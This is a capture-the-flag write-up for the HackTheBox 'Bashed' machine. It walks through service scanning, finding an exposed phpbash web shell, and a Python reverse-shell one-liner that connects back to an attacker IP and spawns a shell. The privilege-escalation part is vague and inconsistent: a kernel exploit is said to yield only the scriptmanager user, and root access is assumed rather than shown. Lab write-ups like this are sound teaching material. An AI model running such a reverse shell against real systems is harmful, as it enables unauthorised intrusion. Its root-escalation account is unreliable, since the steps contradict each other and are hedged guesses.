 ```yaml
---
title: Bashed
date: 2020-11-28 21:30:30 +/-TTTT
categories: [CTF, hackthebox]
tags: [phpbash, sudo, kernel]
---
```


![infocard](/assets/htb/bashed/infocard.png)

This writeup details the process of exploiting the "Bashed" machine on HackTheBox. The approach leverages a web shell vulnerability, privilege escalation through a vulnerable kernel, and limited user access to achieve root access.

## Enumeration

We begin with a basic Nmap scan to identify open services on the target machine.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-21 10:34 CET
  Nmap scan report for 10.10.10.68
  Host is up (0.073s latency).
  Not shown: 999 closed ports
  PORT   STATE SERVICE VERSION
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Arrexels Development Site

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 10.27 seconds
  ```
  
Visiting the website at http://10.10.10.68 yields minimal information. We then utilize a directory fuzzing tool like `ffuf` to enumerate potentially hidden directories.

![ffuf](/assets/htb/bashed/ffuf.png)

The fuzzing identifies the /dev directory as a potential point of interest.

![dev](/assets/htb/bashed/dev.png)

Navigating to http://10.10.10.68/dev/phpbash.php reveals a web shell script. This script likely leverages a PHP vulnerability to execute arbitrary commands on the server.

![webshell](/assets/htb/bashed/webshell.png)

## Gaining Shell

We utilize a Python one-liner to establish a reverse shell connection to our attacking machine.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

This code launches a reverse shell, granting us access to the server as the `www-data` user.

Upon gaining shell access, we enumerate user accounts. We discover two users: `scriptmanager` and `arrexel`. Exploring the `/home/arrexel` directory reveals the user flag.

![user](/assets/htb/bashed/user.png)

## Gaining Root

### Identifying Kernel Version:

Running the `uname -a` command reveals the system's kernel version (e.g., 4.4).

### Exploit Research and Compilation:

Leveraging online resources, we search for publicly available exploits targeting the identified kernel version. We determine a suitable exploit but require compilation as the target machine lacks GCC (GNU Compiler Collection). We compile the exploit on our local machine for later transfer.

### Transferring and Exploiting (Local Exploitation):

We employ a file transfer tool (e.g., `netcat` or `scp`) to upload the compiled exploit to the target machine. We then execute the exploit on the server, potentially elevating our privileges to the `scriptmanager` user.

### Sudo Privilege Escalation:

Since we have access as the `scriptmanager` user, we can potentially abuse `sudo` privileges if misconfigured. We attempt to run commands using `sudo` to see if we can escalate further.

### Root Flag Retrieval:

Assuming successful privilege escalation to `scriptmanager`, we can leverage their `sudo` rights to execute commands with root privileges. We then access the `/root` directory to retrieve the root flag.

![root](/assets/htb/bashed/root.png)

